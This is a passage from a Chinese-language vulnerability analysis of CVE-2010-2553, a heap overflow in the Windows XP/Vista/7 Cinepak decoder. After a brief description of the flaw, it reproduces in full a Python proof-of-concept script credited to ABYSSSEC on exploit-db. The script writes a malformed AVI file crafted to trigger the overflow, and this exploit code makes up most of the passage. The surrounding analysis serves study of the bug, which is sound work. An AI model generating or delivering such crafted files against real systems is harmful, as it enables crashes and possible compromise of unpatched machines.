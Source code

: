     设置这个标志可以定位到导致漏洞的代码或函数
    

2. 漏洞介绍
=======

CVE-2010-2553 存在于 Microsoft Windows XP SP2 和 SP3, Windows Vista SP1 和 SP2, 以及 Windows 7 的 Cinepak 解码器中，iccvid.dll 在解压缩媒体文件时，没有对缓冲区大小进行检测，导致在复制压缩数据时造成堆溢出。

3. 文件格式介绍
=========

在 [exploit-db](https://www.exploit-db.com/exploits/15112) 网站上，有 ABYSSSEC 提供的 poc 文件生成代码：

```
import sys
 
def main():
 
    aviHeaders = '\x52\x49\x46\x46\x58\x01\x00\x00\x41\x56\x49\x20\x4C\x49\x53\x54\xC8\x00\x00\x00\x68\x64\x72\x6C\x61\x76\x69\x68\x38\x00\x00\x00\xA0\x86\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x01\x00\x00\x4E\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x60\x01\x00\x00\x20\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x4C\x49\x53\x54\x7C\x00\x00\x00\x73\x74\x72\x6C\x73\x74\x72\x68\x38\x00\x00\x00\x76\x69\x64\x73\x63\x76\x69\x64\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xE8\x03\x00\x00\x10\x27\x00\x00\x00\x00\x00\x00\x4E\x00\x00\x00\x20\x74\x00\x00\xFF\xFF\xFF\xFF\x00\x00\x00\x00\x00\x00\x00\x00\x60\x01\x20\x01\x73\x74\x72\x66\x28\x00\x00\x00\x28\x00\x00\x00\x50\x01\x00\x00\x20\x01\x00\x00\x01\x00\x18\x00\x63\x76\x69\x64\x84\x8D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
    padding = '\x4A\x55\x4E\x4B\x00\x00\x00\x00\x4A\x55\x4E\x4B\x00\x00\x00\x00'
    movi_tag = '\x4C\x49\x53\x54\x5C\x00\x00\x00\x6D\x6F\x76\x69\x30\x30\x64\x63\x10\x00\x00\x00'
    cinepak_codec_data1 = '\x00\x00\x00\x68\x01\x60\x01\x20'
    number_of_coded_strips = '\x00\x10'
    cinepak_codec_data2 = '\x10\x00\x00\x10\x00\x00\x00\x00\x00\x60\x01\x60\x20\x00\x00\x00\x11\x00\x00\x10\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x11\x00\x00\x10\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x11\x00\x00\x10\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x11\x00\x00\x10\x41\x00'
    idx_tag = '\x69\x64\x78\x31\x10\x00\x00\x00\x30\x30\x64\x63\x10\x00\x00\x00\x04\x00\x00\x00\x68\x00\x00\x00'
 
    avifile = open('poc.avi', 'wb+')
    avifile.write(aviHeaders)
    avifile.write(padding)
    avifile.write(movi_tag)
    avifile.write(cinepak_codec_data1)
    avifile.write(number_of_coded_strips)
    avifile.write(cinepak_codec_data2)
    avifile.write(idx_tag)
 
    avifile.close()
    print '[-] AVI file generated'
 
if __name__ == '__main__':
    main()

```
